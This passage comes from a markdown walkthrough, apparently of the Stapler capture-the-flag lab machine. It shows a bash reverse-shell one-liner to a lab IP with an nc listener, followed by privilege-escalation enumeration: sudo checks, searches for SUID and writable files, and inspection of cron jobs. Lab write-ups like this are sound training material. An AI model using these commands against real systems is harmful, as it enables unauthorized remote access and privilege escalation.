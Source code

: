 ![01-Stapler-19](00-Assets/01-Stapler-19.png)

### Reverse Shell
```shell
bash -c 'bash -i >& /dev/tcp/192.168.45.184/4444 0>&1'
```
#### Listener
```shell
nc -lnvp 4444
```

![01-Stapler-20](00-Assets/01-Stapler-20.png)


## Privilege Escalation - 1
### Basic Enumeration
```shell
sudo -l
sudo -V
```

```shell
find / -perm -u=s -type f 2>/dev/null

find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"


/usr/local/sbin/cron-logrotate.sh
```
### CronJobs
```shell
ls -lah /etc/cron*

-rw-r--r--   1 root root   56 Jun  3  2016 logrotate
```
